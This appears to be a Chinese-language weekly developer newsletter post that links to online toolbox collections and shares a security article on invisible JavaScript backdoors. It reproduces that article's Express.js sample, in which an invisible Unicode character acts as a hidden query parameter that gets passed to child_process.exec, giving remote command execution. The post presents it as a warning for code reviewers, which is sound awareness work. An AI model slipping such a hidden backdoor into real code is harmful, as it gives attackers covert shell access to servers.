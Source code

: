 ![Normalize Unicode Text](https://raw.githubusercontent.com/bestxtools/weekly-cn/main/images/2022-04-27-13-04-56.png)
![Normalize Unicode Text](https://raw.githubusercontent.com/bestxtools/weekly-cn/main/images/2022-04-27-12-59-18.png)

## 🧰 [在线工具箱大全](https://awesome-toolbox-chinese.bestxtools.com/)

很多程序员都喜欢做一个工具箱。平时也会经常用到各种工具。这里收集了一些国内外好用的在线工具箱。

链接:

- [https://github.com/bestxtools/awesome-toolbox-chinese](https://github.com/bestxtools/awesome-toolbox-chinese)
- [https://😎🧰.bestxtools.com/](https://😎🧰.bestxtools.com/)

欢迎[点赞](https://github.com/bestxtools/awesome-toolbox-chinese)，收藏，[投稿](https://github.com/bestxtools/awesome-toolbox-chinese/issues)。

---

## 🌈 文章 & 资源分享

- [The Invisible JavaScript Backdoor - Certitude Blog](https://links.bestxtools.com/certitude.consulting/blog/en/invisible-backdoor/)

  使用不可见零宽字符或同形字符（易混淆字符）可以写出很难发现的后门程序。了解其中的玄机，小心项目被人恶意地提交了这种代码。

  下面是这篇文章的示例代码：（Code review 真的很难发现其中的问题）

```
const express = require("express");
const util = require("util");
const exec = util.promisify(require("child_process").exec);

const app = express();

app.get("/network_health", async (req, res) => {
  const { timeout,ㅤ} = req.query;
  const checkCommands = [
    "ping -c 1 google.com",
    "curl -s http://example.com/",ㅤ
  ];

  try {
    await Promise.all(
      checkCommands.map(
        (cmd) => cmd && exec(cmd, { timeout: +timeout || 5_000 })
      )
    );
    res.status(200);
    res.send("ok");
  } catch (e) {
    res.status(500);
    res.send("failed");
  }
});

app.listen(8080);
```

